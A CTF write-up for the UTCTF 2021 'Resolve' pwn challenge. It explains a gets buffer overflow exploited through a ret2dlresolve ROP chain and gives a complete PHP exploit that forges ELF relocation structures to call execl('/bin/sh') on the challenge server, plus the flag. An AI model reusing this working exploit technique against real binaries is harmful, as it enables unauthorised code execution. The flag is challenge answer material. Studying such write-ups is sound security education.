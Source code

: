 # Resolve - UTCTF 2021 (pwn, 980p, 46 solved)

## Introduction
Resolve is a binary exploitation task.

An x64 ELF binary is given. This binary does not print anything and waits for
user input. Unsurprisingly, inputting a large string of characters causes the
program to crash.

## Reverse engineering
The binary calls `gets` on a buffer of size 8.  
That's it. Nothing less, nothing more.

## Vulnerabilities
The `gets` function is inherently insecure: it will overwrite buffers of any
size. This challenge is vulnerable to the most basic case of stack-based buffer
overflow.

## Exploitation
The binary is not compiled with a PIE. It is possible to leverage the call to
`gets` to start a ROP chain. Unfortunately, there is not enough interesting
gadgets in this tiny binary.

The binary is compiled with lazy relocations (the call to `gets` is resolved
just in time).

It is possible to return to the `dlresolve` function and make the binary resolve
a function it is not supposed to resolve.

`dlresolve` is a function that calls a function referenced by an index in an
array of `ElfN_Rela` structures located in the `.rela.plt` section. The index is
pushed in the stack.

```c
typedef struct {
    Elf32_Addr r_offset;
    uint32_t   r_info;
    int32_t    r_addend;
} Elf32_Rela;

typedef struct {
    Elf64_Addr r_offset;
    uint64_t   r_info;
    int64_t    r_addend;
} Elf64_Rela;
```

It writes the relocated address in at address `r_offset` and jumps to it.

It knows what function to relocate by looking up an `ElfN_Sym` structure in the
array located in the `.dynsym` section. The index is stored within the `r_info`
member of the structure.

```c
typedef struct {
    uint32_t      st_name;
    Elf32_Addr    st_value;
    uint32_t      st_size;
    unsigned char st_info;
    unsigned char st_other;
    uint16_t      st_shndx;
} Elf32_Sym;

typedef struct {
    uint32_t      st_name;
    unsigned char st_info;
    unsigned char st_other;
    uint16_t      st_shndx;
    Elf64_Addr    st_value;
    uint64_t      st_size;
} Elf64_Sym;
```

In the end, `dlresolv` retrieves the name of the function to resolve by looking
at the string located at `.dynstr` + `st_name`.

None of these structures are present in the original binary. It is required to
forge them to carry the attack. A good place to store these structures is the
BSS.

The `Elf64_Rela` structure can be located at `0x00404040` (offset 635).  
The `Elf64_Sym` structure can be located at `0x00404068` (offset 647).  
The function name can be put anywhere because it has no alignment requirements.

The exploit below calls `gets` to store the structures at the rights addresses,
than resolves `execl` by calling `dlresolv`.

**Flag**: `utflag{2_linker_problems_in_one_ctf?8079235}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php // vim: filetype=php
require_once "Process.php";
require_once "Socket.php";

const POPRDI = 0x004011c3;
const GETS   = 0x00401040;
const RESOLV = 0x00401020;

/* segments */
const RELA   = 0x004004b8;
const DYNSYM = 0x004003c0;
const DYNSTR = 0x00400420;


$addr = 0x00404040;
assert(0 === ($addr - RELA) % 0x18);
assert(0 === ($addr + 0x28 - DYNSYM) % 0x18);


$ROP = pack("Q*",
	/* Write second payload */
	POPRDI, $addr,
	GETS,

	/* Call execl */
	POPRDI, $addr + 0x18 + 0x10 + 0x18,
	RESOLV, (int)(($addr - RELA) / 0x18),
);

// rela.plt
$payload = pack("QVVQ",
	$addr, // offset
	7, // info
	(int)(($addr + 0x18 + 0x10 - DYNSYM) / 0x18), // info
	0, // addend
);
$payload .= str_pad("execl", 0x10, "\x00");

$payload .= pack("VCCvQQ",
	$addr + 0x18 - DYNSTR, // name
	0, // info
	0, // other
	0, // shndx
	0, // value
	0, // size
);

$payload .= "/bin/sh\0";
$final = sprintf("%016d%s\n%s\n", 0, $ROP, $payload);

const LOCAL = false;
const HOST  = "pwn.utctf.live";
const PORT  = 5435;

printf("[*] Creating process\n");
$time = microtime(true);

if(LOCAL)
	$t = new Process("./resolve");
else
	$t = new SocketTube(HOST, PORT);

printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");

$t->write($final);

$t->pipe();
```

